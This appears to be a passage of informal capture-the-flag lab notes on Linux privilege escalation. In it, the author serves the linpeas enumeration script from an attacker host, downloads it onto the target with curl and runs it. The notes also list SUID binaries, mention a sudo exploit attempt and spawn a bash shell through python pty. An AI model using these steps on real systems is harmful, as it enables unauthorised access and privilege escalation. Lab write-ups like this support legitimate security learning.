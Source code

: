 lol, okay the machine doesn't have SSH, ETC password says robot is the only other user "varnish" on the machine, there is a varnish user with 999 but im not sure if that is a service account, which it is I guess varnish is a content delivery system

┌──(kali㉿kali)-[/]
└─$ sudo curl -L -o linpeas.sh https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

┌──(kali㉿kali)-[/]
└─$ python3 -m http.server 4444

$ curl -k -L http://10.23.80.154:4444/linpeas.sh -o /tmp/linpeas3.sh

$ chmod o+x linpeas3.sh

$ bash linpeas3.sh

══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                                                                                     
                      ╚════════════════════════════════════╝                                                                                                                                                                                           
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                                                                                                                        
strace Not Found                                                                                                                                                                                                                                       
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping                                                                                                                                                                                                      
-rwsr-xr-x 1 root root 68K Feb 12  2015 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 93K Feb 12  2015 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 37K Feb 17  2014 /bin/su
-rwsr-xr-x 1 root root 46K Feb 17  2014 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 32K Feb 17  2014 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 41K Feb 17  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root 46K Feb 17  2014 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 67K Feb 17  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 152K Mar 12  2015 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 431K May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10K Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9.4K Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14K Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 11K Feb 25  2015 /usr/lib/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)

I tried an exploit for sudo https://www.exploit-db.com/exploits/51217 Files with Interesting Permissions, they have the SUID but set as notated by the s


I tried a few different priv esc scripts for versions of software the machine had but didn't have any luck. I can't read the sudoers file and sudo -l but didn't get an output unfortunately.

so my linpeas output didn't show me this but eventually I realized python --version shows an output so I realized I could spawn an interactive shell

$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/tmp$ cd ..
